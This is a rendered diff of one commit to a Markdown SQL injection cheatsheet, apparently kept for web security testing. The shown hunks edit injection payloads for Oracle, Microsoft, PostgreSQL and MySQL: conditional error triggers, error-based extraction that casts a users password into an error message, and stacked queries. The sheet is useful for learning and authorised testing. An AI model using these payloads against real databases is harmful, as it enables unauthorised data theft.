

Before and after one commit to Dynjee/Burpsuite, a Markdown page: SQLi Injection/SQL cheatsheet #1.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/SQLi Injection/SQL cheatsheet #1.md
+++ b/SQLi Injection/SQL cheatsheet #1.md
@@ -103,16 +103,16 @@ MySQL
 Test a boolean condition and trigger an error if true.
 
 Oracle
-`SELECT CASE WHEN (condition) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
+`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
 
 Microsoft
-`SELECT CASE WHEN (condition) THEN 1/0 ELSE NULL END`
+`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
 
 PostgreSQL
-`1 = (SELECT CASE WHEN (condition) THEN 1/(SELECT 0) ELSE NULL END)`
+`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
 
 MySQL
-`SELECT IF(condition,(SELECT table_name FROM information_schema.tables),'a')`
+`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`
 
 ---
 
@@ -121,19 +121,19 @@ MySQL
 Microsoft
 
 SELECT 'foo' WHERE 1 = (SELECT 'secret')
--- Conversion failed when converting varchar 'secret' to int
+> Conversion failed when converting the varchar value 'secret' to data type int.
 
 
 PostgreSQL
 
 SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
--- invalid input syntax for integer
+> invalid input syntax for integer: "secret"
 
 
 MySQL
 
-SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c,(SELECT 'secret')))
--- XPATH syntax error
+SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
+> XPATH syntax error: '\secret'
 
 
 ---
@@ -144,13 +144,14 @@ Oracle
 Not supported
 
 Microsoft
-`QUERY-1; QUERY-2`
+`QUERY-1-HERE; QUERY-2-HERE
+QUERY-1-HERE QUERY-2-HERE`
 
 PostgreSQL
-`QUERY-1; QUERY-2`
+`QUERY-1-HERE; QUERY-2-HERE`
 
 MySQL
-`QUERY-1; QUERY-2`
+`QUERY-1-HERE; QUERY-2-HERE`
 
 Note: MySQL stacked queries may not always work depending on API.
 
```
Also changed, not shown: other parts of SQLi Injection/SQL cheatsheet #1.md (+24 -29 lines).
